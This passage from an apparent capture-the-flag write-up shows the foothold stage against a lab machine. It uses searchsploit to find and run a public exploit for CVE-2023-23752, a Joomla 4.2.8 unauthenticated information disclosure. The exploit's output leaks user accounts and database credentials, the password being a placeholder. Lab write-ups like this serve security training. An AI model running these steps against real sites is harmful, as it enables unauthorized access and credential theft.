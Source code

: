 ## Foothold

Taking a further look we find that is a jommla vulnerable version:

```
searchsploit joomla | grep -i v4.2  
Joomla! v4.2.8 - Unauthenticated information disclosure
```

```
searchsploit -p 51334 
  Exploit: Joomla! v4.2.8 - Unauthenticated information disclosure
      URL: https://www.exploit-db.com/exploits/51334
     Path: /opt/exploitdb/exploits/php/webapps/51334.py
    Codes: CVE-2023-23752
 Verified: True
File Type: Ruby script, ASCII text
```

We can see that the exploit it's a ruby script, but, with python extension.
We copy it to a working folder and we install the gems required by the script:

```
cp /opt/exploitdb/exploits/php/webapps/51334.py /home/rubenhortas/devvortex/exploits/51334.rb
```
```
sudo gem install httpx docopt paint
```

Once we have everything ready we run the exploit:

```
./51334.rb http://dev.devvortex.htb
Users
[649] lewis (lewis) - lewis@devvortex.htb - Super Users
[650] logan paul (logan) - logan@devvortex.htb - Registered

Site info
Site name: Development
Editor: tinymce
Captcha: 0
Access: 1
Debug status: false

Database info
DB type: mysqli
DB host: localhost
DB user: lewis
DB password: f4k3l0g4np455
DB name: joomla
DB prefix: sd4fg_
DB encryption 0
```

### lewis
